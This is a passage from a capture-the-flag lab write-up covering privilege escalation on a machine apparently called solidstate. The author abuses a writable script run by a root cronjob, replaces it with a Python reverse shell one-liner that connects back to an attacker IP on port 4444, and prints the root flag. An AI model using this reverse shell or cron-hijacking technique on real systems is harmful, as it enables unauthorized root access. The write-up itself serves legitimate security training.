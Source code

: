 
# Privilege Escalation

## Root - Via Cronjob
1. Found something interesting w/ `linpeas.sh`
	![]({{ page.img_path }}Pasted%20image%2020220825044822.png)
	- We have `RWX` access to `/opt/tmp.py`
2. Sniff processes w/ `pspy32`
	![]({{ page.img_path }}Pasted%20image%2020220825044608.png)
	- A cronjob running as `root` is executing `/opt/tmp.py` every 3 minutes
3. Exploit
	1. How does it work?
	2. Since we have `RWX` to `/opt/tmp.py` and it is being executed as `root`, we can replace `/opt/tmp.py` w/ a python reverse shell to escalate our privileges to `root`
	3. Create python script
		```
		mindy@solidstate:~/bin$ nano /tmp/tmp.py
		
		import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
		```
	4. Replace `/opt/tmp.py` w/ `/tmp/tmp.py`
		```
		mindy@solidstate:~/bin$ cp /tmp/tmp.py /opt/tmp.py 
		```
	5. Start listener and wait for cronjob to execute 
	7. Obtained Shell & Root Flag
		```
		fec122a2b91fc6cf33e0ad4276a685ad
		```
		![]({{ page.img_path }}Pasted%20image%2020220825045806.png)

